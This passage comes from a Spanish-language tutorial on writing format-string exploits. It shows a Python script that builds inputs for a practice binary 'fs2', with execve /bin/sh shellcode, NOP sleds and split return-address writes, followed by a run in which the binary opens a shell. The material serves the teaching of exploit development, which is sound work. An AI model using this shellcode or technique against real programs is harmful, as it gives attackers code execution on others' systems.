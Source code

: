     """Uso: ./fs2 "$(./exploit.py 1)" "$(./exploit.py 2)" "$(./exploit.py 3)" """

    import sys
       
    from struct import pack
       
    shellcode  = "\xeb\x1e\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c"
    shellcode += "\x8d\x4b\x08\x8d\x53\x0c\x31\xd2\xb0\x0b\xcd\x80\xb0\x01"
    shellcode += "\x31\xdb\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f"
    shellcode += "\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43"
       
    buf_size = 256
       
    buf_addr     = 0xbffe6fb8                              
       
    buf_addr_low  = (buf_addr >>  0) & 0x0000ffff
    buf_addr_high = (buf_addr >> 16) & 0x0000ffff
       
    ret_addr_low  = buf_addr + buf_size + 4 + 0
    ret_addr_high = buf_addr + buf_size + 4 + 2
       
       
    exploit_argv1  = "\xeb\x0a" + "\x90" * 2              # \xeb\x0a == jmp 0xc
    exploit_argv1 += "\x90" * 4
    exploit_argv1 += pack("<I", ret_addr_high)
    exploit_argv1 += "\x90" * 40
    exploit_argv1 += shellcode
    exploit_argv1 += "A" * (buf_addr_high - len(exploit_argv1) - 2)
       
    exploit_argv2  = "\xeb\x0a" + "\x90" * 2              # \xeb\x0a == jmp 0xc
    exploit_argv2 += "\x90" * 4
    exploit_argv2 += pack("<I", ret_addr_low)
    exploit_argv2 += "\x90" * 40
    exploit_argv2 += shellcode
    exploit_argv2 += "A" * (buf_addr_low - len(exploit_argv2) - 2)
       
    padding = "A" * (100000 - len(exploit_argv1) - len(exploit_argv2) - 2)
       
       
    if sys.argv[1] == "1":
            sys.stdout.write(exploit_argv1)
    elif sys.argv[1] == "2":
            sys.stdout.write(exploit_argv2)
    elif sys.argv[1] == "3":
            sys.stdout.write(padding)
    ```
4.  Ejecutamos el exploit

    ```
    user@abos:~$ ./fs2 "$(./exploit.py 1)" "$(./exploit.py 2)" "$(./exploit.py 3)"
       
    process 1537 is executing new program: /bin/dash
    $ 
    ```

![](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs2/modificacion-exploit.png)

![](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs2/planificacion-format-string.png)
